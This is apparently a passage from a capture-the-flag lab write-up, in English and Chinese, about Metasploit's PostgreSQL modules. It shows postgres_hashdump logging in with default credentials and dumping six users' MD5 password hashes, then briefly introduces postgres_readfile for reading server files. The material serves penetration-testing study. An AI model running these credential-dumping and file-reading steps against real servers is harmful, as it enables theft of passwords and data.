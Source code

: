 This module extracts the usernames and encrypted password hashes from a Postgres server and stores them for later cracking.

Postgres 密码哈希转储

该模块从 Postgres 服务器中提取用户名和加密密码哈希，并将它们存储以备后续破解之用。

```
msf6 auxiliary(admin/postgres/postgres_sql) > use auxiliary/scanner/postgres/postgres_hashdump
msf6 auxiliary(scanner/postgres/postgres_hashdump) > show options

Module options (auxiliary/scanner/postgres/postgres_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  postgres         yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS    10.10.205.125    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     5432             yes       The target port
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  postgres         yes       The username to authenticate as


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/postgres/postgres_hashdump) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/postgres/postgres_hashdump) > run

[+] Query appears to have run successfully
[+] Postgres Server Hashes
======================

 Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

[postgres_readfile](https://www.offsec.com/metasploit-unleashed/admin-postgres-auxiliary-modules/)

postgres_readfile

The postgres_readfile module, when provided with valid credentials for a PostgreSQL server, will read and display files of your choosing on the server.
